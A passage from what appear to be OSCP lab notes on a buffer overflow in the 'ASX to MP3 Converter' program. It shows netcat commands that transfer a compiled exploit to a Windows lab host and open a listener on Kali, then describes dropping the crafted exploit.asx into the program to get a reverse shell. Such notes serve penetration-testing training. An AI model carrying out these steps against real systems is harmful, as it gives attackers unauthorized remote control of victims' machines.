C:\Users\Administrator\Desktop>nc -lnvp 4444 > 7_add_shellcode_yes_nops.exe                                             listening on [any] 4444 ... 
```

Start a netcat client on Kali that sends the .exe upon connection, then break the connection once it has been transferred.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ sudo nc -nv 192.168.214.10 4444 < 7_add_shellcode_yes_nops.exe 
[sudo] password for kali: 
(UNKNOWN) [192.168.214.10] 4444 (?) open
```

Start a netcat listener on Kali
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln2$ sudo nc -lnvp 443
[sudo] password for kali: 
listening on [any] 443 ...
```

Run the exploit, it will create a file named exploit.asx


Start the ASX to MP3 Converter program, then drag exploit.asx to it. We will not be using any debugger.


Notice we now have a shell on the Kali listener.


